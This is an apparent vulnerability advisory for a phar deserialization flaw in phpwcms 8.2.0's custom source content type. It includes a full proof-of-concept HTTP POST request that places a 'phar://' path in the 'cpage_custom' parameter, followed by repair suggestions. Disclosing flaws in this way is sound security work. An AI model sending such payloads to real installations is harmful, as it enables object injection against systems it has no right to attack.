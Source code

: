# `phar` deserialization vulnerability in `cnt21.readform.inc.php#is_file`

## 0x01 Affected version
vendor: https://github.com/slackero/phpwcms

version: 8.2.0

php version: 7.x

## 0x02 Vulnerability description

The phpwcms Content Management System is vulnerable to PHP Object Injection in the article content type 21 (Custom Source Tab) through deserialization of untrusted input. An attacker can provide a malicious PHAR URL via the 'cpage_custom' parameter in the content editing form, which is passed directly to the file_get_contents() function without proper validation. This vulnerability allows attackers to inject PHP Objects through a PHAR file or utilize various PHP stream wrappers for side-channel attacks. No known POP (Property Oriented Programming) chain has been identified in the core application, meaning this vulnerability may have limited impact unless other components with suitable gadgets are installed. If a POP chain exists through additional components, attackers could potentially delete files, access sensitive information, or execute arbitrary code depending on the available gadgets. This vulnerability can be exploited by attackers with access to the phpwcms admin interface. The attack requires a valid CSRF token to be included in the request.

![alt text](../dists/phpwcms1.png)

```text
POST /phpwcms.php?csrftoken=d20e0993a60841067fe209bd82884f24&do=articles&p=2&s=1&aktion=2&id=1 HTTP/1.1
Host: dem0.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Referer: http://dem0.com/phpwcms.php?csrftoken=d20e0993a60841067fe209bd82884f24&do=articles&p=2&s=1&id=1
Origin: http://dem0.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Cookie: phpwcmsBELang=en; PHPSESSID=ndprgg1lkuk77l5vrhdbejep2e
Cache-Control: max-age=0
Content-Length: 219

csrf_token_name=csrf6825cb2230f394.61788130&csrf_token_value=08854df019d6a36b5c096237306340b9c93a9751bc99487c0fd94541ff60f09898f95d44b72a50766972de827e7ae15b9feb13d6a88801f6c9280a03a98632fa&ctype=21&csorting=0&caktion=1&cpage_source=1&caid=1&cpage_custom=phar%3A%2F%2F..%2F..%2Fexp.phar&ctitle=2&csubtitle=3&ccomment=4&cpaginate_title=5&cbefore=&cafter=&cid=1&clivedate=&ckilldate=&cblock=2
```

## 0x03 Repair suggestions
To prevent the exploitation of this vulnerability, it is important to implement proper input validation for the 'cpage_custom' parameter. The application should restrict the protocols that can be used with is_file() to only allow safe values, explicitly blocking dangerous protocols like 'phar://', 'php://', and other potentially malicious stream wrappers. Additionally, implementing a whitelist approach that only allows specific protocols (such as 'http://' and 'https://') would provide stronger protection. Proper sanitization and validation of user input are critical for mitigating this risk.
